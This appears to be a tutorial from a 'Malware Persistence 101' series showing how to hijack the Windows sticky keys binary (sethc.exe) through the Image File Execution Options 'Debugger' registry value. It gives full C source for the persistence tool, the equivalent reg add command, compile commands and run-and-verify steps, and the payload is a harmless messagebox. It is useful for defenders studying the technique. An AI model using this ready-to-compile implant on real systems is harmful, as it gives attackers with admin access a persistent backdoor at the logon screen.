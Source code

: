 # 05 persistence - accessibility features

Accessibility features provide additional options (on-screen keyboards, magnifier, screen reading, etc.) to help persons with disabilities use Windows operating systems more easily. However, this functionality can be exploited to achieve persistence on a server with RDP enabled and Administrator level credentials obtained.     

This trick is a special case of another trick [https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html)     

The only difference is our victim process `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the Shift key 5 times will enable the sticky keys:    

![img](./img/2022-09-30_17-26.png)    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a "Hello, Prishtina!" messagebox, will be executed. The source code is pretty similar (`pers.c`):    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows persistence via Accessibility Features
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![img](./img/2024-05-06_16-26.png)    

Then, compile our persistence script:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-06_16-28.png)   

Compile and move `hack.exe`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-06_16-31.png)   

![img](./img/2024-05-06_16-33.png)    

Run and check registry keys again. You need to have administrative privileges to replace the genuine Windows binary of the tool
:   

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /s
```

![img](./img/2024-05-06_16-35.png)     

Finally, pressing `Shift` key 5 times:    

![img](./img/2024-05-06_16-37.png)    

Note to the properties of the `hack.exe`:    

![img](./img/2024-05-06_16-39.png)    

![img](./img/2024-05-06_16-39_1.png)    

As we can see, everything is worked as expected! Perfect! =^..^=   